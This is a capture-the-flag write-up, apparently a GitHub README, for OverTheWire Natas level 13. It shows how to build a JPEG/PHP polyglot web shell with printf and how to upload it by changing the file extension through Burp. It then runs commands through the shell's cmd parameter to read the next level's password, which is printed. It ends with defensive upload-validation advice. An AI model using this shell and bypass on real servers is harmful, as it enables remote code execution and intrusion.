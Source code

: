 # 🕵️ Natas - Level 13 (🇺🇸 English)  
*Date: 2025-06-04*  
*Difficulty: Intermediate*  
*Category: Web*  

---

## 🎯 Objective

The goal of this challenge is to bypass a file type validation based on "magic bytes" (`exif_imagetype()`) and, combining with the file name manipulation from the previous level, achieve Remote Code Execution (RCE) to obtain the password for the next level (Natas14).  

---

## 🔎 Analysis

- The Natas12 filename manipulation vulnerability persists: the name and extension of the file to be saved are set by a hidden field `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`. This allows an attacker, by intercepting the HTTP request (e.g., via Burp Suite), to change the extension from .jpg to .php.  

- New Security Check: The PHP script now includes a `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`.   
- The exif_imagetype() function reads the first few bytes of the file (known as the "magic bytes" or "signature") to determine if it corresponds to a valid image format (JPEG, PNG, GIF, etc.).   
- If the file does not have a recognized image signature, exif_imagetype() returns false, causing the upload to be rejected with the message "File is not an image".   
- This prevents the direct upload of a pure PHP file, since it does not have image magic bytes.  
- To bypass the exif_imagetype() check, we need to create a polyglot file: a file that is valid both as a JPEG image and as a PHP script. The key to this is to insert the magic bytes of an image file at the top of our PHP code.   
- The exif_imagetype() image parser will read the magic bytes at the beginning of the file and recognize it as an image.   
- The PHP parser, when executing the file (once its extension has been manipulated to .php), will ignore the initial magic bytes (which are not valid PHP code) and start interpreting PHP code from the <?php tag.
  
---

## 🧱 Steps

1. Source Code Analysis: Confirm the persistence of the `filename` vulnerability (from Natas12) and identify the new `exif_imagetype()` validation.   
2. Prepare the Polyglot Payload: Create a file that contains JPEG magic bytes at the beginning, followed by our PHP shell.   
  - We use the terminal to create the file, ensuring that the literal hexadecimal bytes and PHP code are inserted correctly.   
  - Our PHP payload is `<?php system($_GET["cmd"]); ?>`.   
  - The JPEG magic bytes are `\xFF\xD8\xFF\xE0` (for JFIF JPEG).  
3. Create the Malicious File via Terminal:   
```bash
printf '\xFF\xD8\xFF\xE0' > bypass.php 
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
- The first printf creates the bypass.php file with the JPEG magic bytes.   
- The second printf (using `>>`) appends the PHP payload right after the magic bytes, without overwriting.  
4. Start Upload: In the browser, select the bypass.php file (or whatever name you gave the polyglot file) and prepare to upload.  
5. Intercept and Manipulate Request: Use an intercepting proxy tool (like Burp Suite) to capture the upload request.  
6. Change Extension: In the intercepted request, locate the `filename` parameter (which will come with a value like [random_name].jpg from the hidden field) and change its extension to `.php` (e.g. `[random_name].php`).  
7. Resend Request: Forward the modified request to the server. The server will accept the file, since the magic bytes satisfy `exif_imagetype()`.  
8. Access the Web Shell: The server will return the path to the file (e.g. `upload/bldzmc4xs4.php`). Navigate to this URL.  
9. Execute Commands (RCE): The PHP shell will be interpreted. Add the `cmd` parameter to the URL to execute commands.   
  - Test: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (will return `/var/www/natas/natas12/upload`).   
  - Get Natas14's password: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  
---

## 🔑 Password Found

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusion

Natas13’s exploit succeeded by combining filename manipulation (persistent from the previous level) with a polyglot (JPEG + PHP) file creation technique. Inserting image “magic bytes” into the header of our PHP shell allowed the file to pass the `exif_imagetype()` check, while its manipulated extension (`.php`) ensured that it was interpreted by the PHP server, resulting in Remote Code Execution (RCE). This challenge demonstrates the importance of robust, multi-layered upload validations that do not rely solely on magic bytes or simple extensions.  

---

## 🧪 Commands Used

- Creating a polyglot file `bypass.php` in the terminal:  
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Get Natas14 password:   
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
```

---

## 🧠 Observations

- Content-Type Validation: Relying solely on `exif_imagetype()` is not enough. It is vital to check not only the magic bytes, but also perform deeper validation of the file content (e.g. using libraries that actually parse the image structure and check its integrity).   
- Layered Security: Upload validations should be layered: MIME type (checked via `Content-Type`), extension (validated by whitelist), magic bytes, and ideally image content verification by a robust library (to avoid polyglots).   
- Upload Isolation: Files uploaded by users should be stored in a directory that does not allow scripting and, if possible, served via a different domain or CDN.   
- Principle of Least Privilege: Ensure that the user under which the web server runs has the minimum permissions required, limiting the impact of an RCE.  

---

## 📎 Scripts Developed

`bypass.php`: A polyglot PHP/JPEG file (`<?php system($_GET['cmd']); ?>` with magic bytes JPEG) created directly in the terminal.  

---

<p align="center"> <a href="../Natas12/Readme.md">⬅️ Previous</a> • <a href="../Natas14/Readme.md">Next ➡️</a> </p>
